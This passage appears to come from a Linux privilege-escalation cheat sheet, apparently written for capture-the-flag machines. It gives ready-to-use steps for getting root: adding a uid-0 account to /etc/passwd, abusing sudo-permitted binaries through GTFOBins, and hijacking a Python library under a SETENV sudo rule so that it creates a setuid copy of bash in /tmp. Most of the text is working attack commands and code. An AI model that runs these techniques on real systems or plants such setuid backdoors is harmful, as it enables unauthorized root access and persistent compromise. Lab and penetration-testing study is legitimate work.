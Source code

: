 Finally append the following string to `/etc/passwd` file:

```bash
[USERNAME]:[HASH]:0:0:root:/root:/bin/bash
```

And finally su to this new user to obtain a **root** **shell**:

```bash
su [USERNAME]
```

# GTFOBins

GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

Firstly, we need to check the sudo permissions on binaries:

```bash
sudo -l
```

After that search on [GTOBins web ](https://gtfobins.github.io)to search how to escape from that binary and obtain a shell:

* [https://gtfobins.github.io/](https://gtfobins.github.io)

```bash
User user may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/someBinary
```

> **Remember**: Do **not** **forget** to run the command as **sudo!**

## SETENV permission

This mean that we can set some environment variables to run the command.

```bash
User user may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/some.py
```

Search for a library, create a copy in `/tmp` and execute commands.

```python
some.py

import sys
sys.exit(10)
```

We can create a sys.py file on `/tmp`.

```python
import os
def exit(a):
        os.system("cp /bin/bash /tmp/rev")
        os.system("chmod u+s /tmp/rev")
```
